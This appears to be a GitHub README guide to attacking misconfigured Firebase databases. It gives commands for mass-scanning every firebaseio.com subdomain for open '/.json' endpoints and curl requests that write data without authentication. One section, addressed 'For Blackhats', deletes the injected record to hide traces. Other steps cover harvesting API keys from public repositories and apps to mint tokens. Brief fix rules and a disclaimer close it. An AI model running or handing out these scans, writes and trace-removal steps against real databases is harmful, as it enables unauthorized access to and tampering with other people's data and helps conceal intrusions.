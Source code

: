 # 🔥 Firebase Hacking & PoC Testing

## 🚀 Introduction

Firebase is a cloud-based platform that provides backend services such as databases, authentication, and storage for web and mobile applications. However, misconfigured Firebase databases can lead to serious security vulnerabilities, allowing unauthorized users to read and write data. This guide will walk you through the process of identifying and testing Firebase vulnerabilities step by step.

---

## 🕵️‍♂️ Step 1: Finding Firebase Subdomains

First, find subdomains associated with Firebase under `*.firebaseio.com`. You can use tools like:

- Subfinder
- Amass
- Assetfinder
- FOFA, Shodan, ZoomEye (search engines)

Example FOFA, Shodan, ZoomEye queries :

```
FOFA Query: "domain=firebaseio.com"
Shodan Query: "http.title:Firebase"
ZoomEye Query: "site:firebaseio.com"
```

### 🛠 Step 2: Testing if Firebase is Accessible Automated Command to Find Live and Accessible Firebase Subdomains

```bash
subfinder -d firebaseio.com -t 50 | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

or directly to check one

```bash
echo https://<subdomain>.firebaseio.com | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

This command will:
1. Find Firebase subdomains using `subfinder`.
2. Filter only live subdomains responding with HTTP `200` using `httpx`.
3. Check if the Firebase database is accessible by sending a `GET` request to `/.json`.
4. Print only the domains that return `200 OK`.

---

## ✍️ Step 3: Testing for Unauthenticated Write Access

Try sending a write request to check if the Firebase database allows unauthenticated write access:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"subhashis_exploit_poc"}' -H "Content-Type: application/json"
```

If the request is successful and data is written and return {"name":"-OKELb6ZxxxxDEiDm7W"} , the Firebase database is vulnerable to **unauthenticated write access**.

## ✍️ Step 3+: How remove the poc For Blackhats 🎩

```bash
curl -X DELETE https://<subdomain>.firebaseio.com/-OKELb6ZxxxxDEiDm7W.json
```

If the request is successful and response is "null" , the Firebase database Poc is deleted.

---

## 🔑 Step 4: Find & Exploit Firebase API Keys

Another method to test Firebase security is by searching for Firebase API keys. You can look for keys in:

- Public GitHub repositories (`AIzaSy` pattern)
- JavaScript files of web applications
- Mobile application decompilation

Example Firebase API key: `AIzaSyDluKZPdsuwxICZvjKi43I7KLLgAHGtxxx`

### 🔍 Testing API Key for Authentication

Use a token generator like [subhashis360.github.io/idtokengenarate](https://subhashis360.github.io/FirebaseHacking/):

1. Paste the API key.
2. Click **Sign Up**.
3. If you receive a valid token, the API key is vulnerable.

---

## 🔒 How to Fix It

### ✅ Secure Firebase Database:

1. Open Firebase Console.
2. Navigate to **Database > Rules**.
3. Update the rules to restrict access only to authenticated users:

```json
{
  "rules": {
    ".read": "auth != null",
    ".write": "auth != null"
  }
}
```

### 🔍 Audit Subdomains:

- Ensure no publicly accessible Firebase databases exist.
- Check for outdated or unused Firebase projects.

### 📊 Monitor Activity Logs:

- Use Firebase’s built-in logging to monitor access and detect unusual activity.
- Enable **Cloud Logging** and **Cloud Monitoring** to track API requests.

---

## 🛑 Disclaimer

This guide is for **educational purposes only**. Unauthorized access to Firebase databases without permission is illegal and may result in severe consequences. Always obtain proper authorization before performing security tests.

---

## 🤝 Conclusion

Misconfigured Firebase databases pose serious security risks. By following the steps above, you can identify vulnerabilities and take corrective actions to secure Firebase applications. Happy hacking responsibly! 🛡
